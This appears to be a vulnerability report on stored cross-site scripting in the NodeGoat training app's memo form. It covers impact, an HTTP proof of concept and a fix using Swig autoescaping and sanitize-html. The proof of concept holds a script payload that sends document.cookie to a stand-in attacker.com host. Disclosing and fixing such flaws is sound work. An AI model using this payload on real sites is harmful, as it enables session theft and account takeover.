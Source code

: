 ### Attack Vector
An authenticated user can submit a memo containing malicious JavaScript via the memo form. Since the content is stored without sanitization and rendered without escaping, the JavaScript will execute in the browser of any user who views the memos page, including administrators.

### Technical Impact
- **Confidentiality**: Severe impact - Attackers can steal cookies, session tokens, and access sensitive page content
- **Integrity**: High impact - Attackers can modify page content and perform actions as the victim
- **Availability**: Moderate impact - Attack payloads could crash the victim's browser

### Proof of Concept
```http
POST /memos HTTP/1.1
Host: nodegoat.example.com
Content-Type: application/x-www-form-urlencoded
Cookie: connect.sid=<valid-session-cookie>

memo=<script>fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie));</script>
```

### Remediation

1. Enable automatic HTML escaping in Swig:
```javascript
// In server.js
swig.setDefaults({
    cache: false,
    autoescape: true // Enable automatic HTML escaping
});
```

2. Implement input sanitization before storage:
```javascript
const sanitizeHtml = require('sanitize-html');

// In memos-dao.js
this.insert = (memo, callback) => {
    // Sanitize the memo content
    const sanitizedMemo = sanitizeHtml(memo, {
        allowedTags: ['p', 'br', 'b', 'i', 'em', 'strong', 'a'],
        allowedAttributes: {
            'a': ['href']
        }
    });
    
    const memos = {
        memo: sanitizedMemo,
        timestamp: new Date()
    };

    memosCol.insertOne(memos, (err, result) => {
        if (err) return callback(err, null);
        callback(null, result);
    });
};
```
